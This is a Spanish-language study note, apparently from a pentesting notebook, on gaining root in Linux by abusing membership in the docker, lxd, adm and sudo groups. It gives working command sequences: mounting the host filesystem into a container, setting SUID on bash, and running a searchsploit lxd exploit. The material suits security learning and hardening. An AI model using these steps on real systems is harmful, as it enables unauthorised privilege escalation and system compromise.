 # Abuso de grupos de usuario especiales

Tags: #Linux #GruposExpeciales  #Escalada #Root #Privilegios #Lxd 

En el contexto de Linux, los **grupos** se utilizan para **organizar** a los usuarios y **asignar** **permisos** para acceder a los recursos del sistema. Los usuarios pueden pertenecer a uno o varios grupos, y los grupos pueden tener diferentes niveles de permisos para acceder a los recursos del sistema.

Existen grupos especiales en Linux, como ‘**lxd**‘ o ‘**docker**‘, que se utilizan para permitir a los usuarios ejecutar contenedores de manera segura y eficiente. Sin embargo, si un usuario malintencionado tiene acceso a uno de estos grupos, podría aprovecharlo para obtener privilegios elevados en el sistema.

Por ejemplo, si un usuario tiene acceso al grupo ‘**docker**‘, podría utilizar la herramienta Docker para desplegar nuevos contenedores en el sistema. Durante el proceso de despliegue, el usuario podría aprovecharse de las **monturas** (**mounts**) para hacer que ciertos recursos inaccesibles en la máquina host estén disponibles en el contenedor. Al ganar acceso al contenedor como usuario ‘**root**‘, el usuario malintencionado podría inferir o manipular el contenido de estos recursos desde el contenedor.

Para mitigar el riesgo de abuso de grupos de usuario especiales, es importante limitar cuidadosamente el acceso a estos grupos y asegurarse de que sólo se asignan a usuarios confiables que realmente necesitan acceder a ellos.


## Grupos Especiales 

```bash 
❯ id                     # Para ver a que grupos estamos asignados 

# Grupos especiales: 
	# sudo = Si estas en estre grupo y disponemos de la passwd del usuario, podemos ejecutar comandos como el usuario 'root'


	# docker = Si estas en este grupo puedes usar los sig. comandos (docker images, docker ps, docker pull ubuntu:latest)
		❯ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu # Desplegaremos un contenedor con una montura de la raiz actual y que la monte en el dir /mnt/root del contenedor
		❯ docker exec -it privesc bash # Para ingresar al contenedor y que nos de una bash para poder ver todos los recursos  
		❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima del usuario fuera del contenedor ya que como hicimos una copia de la raiz del usuario legitimo, todo lo que hagamos dentro del contenedor sera reflejado afuera de el
		❯ ls -l /bin/bash              # Listar los permisos de la bash 
		❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID


	# adm = Si estas en este grupo, podras leer los logs del sistema
		❯ ls -l /var/log/
		❯ cat /var/log/apache2/access.log


	# lxd = Si estas en este grupo, puedes escalar por medio de monturas, utilizando el exploit 
		❯ gpasswd -d <user> lxd   # Borrar el grupo lxd de la maquina  
		
		❯ searchsploit lxd
		❯ searchsploit -m 46978.sh 
		# Descargas la imagen de Alpine, la url esta dentro del script 
		❯ bash build-alpine    # Aclarar que lo debemos de hacer en la maquina de atacante porque nos pide ser root y despues transferimos a la victima lo sig: (privesc.sh, alpine-v3.17-x86_64.tar.gz)
		❯ ./privesc.sh -f alpine-v3.17-x86_64.tar.gz   # Por defecto nos creara un contenedor y nos dara una consola como root dentro del contenedor que llevara la raiz de la maquina victima, la raiz del maquina victima la encontraremo en el dir /mnt/root/
		❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima
		❯ ls -l /bin/bash              # Listar los permisos de la bash
		❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID
	
```

